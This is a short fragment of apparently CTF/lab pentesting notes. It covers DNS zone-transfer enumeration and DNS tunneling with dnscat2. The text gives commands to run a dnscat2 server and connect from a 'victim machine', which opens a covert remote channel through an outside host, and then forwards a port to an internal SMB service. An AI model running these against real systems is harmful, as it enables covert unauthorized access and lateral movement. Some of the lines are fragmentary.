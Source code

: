 Check the DNS server cache 
`host -l cronos.htb 10.10.10.13`
Dig
`dig hostname.htb`


### DNS Tunneling
#### DNSMasq & dnscat2

On Authority server:  `dnscat2-server feline.corp`
From victim machine: `./dnscat feline.corp`
	windows
		windows -i 1 
			`listen 127.0.0.1:4455 172.16.2.11:445`
			e
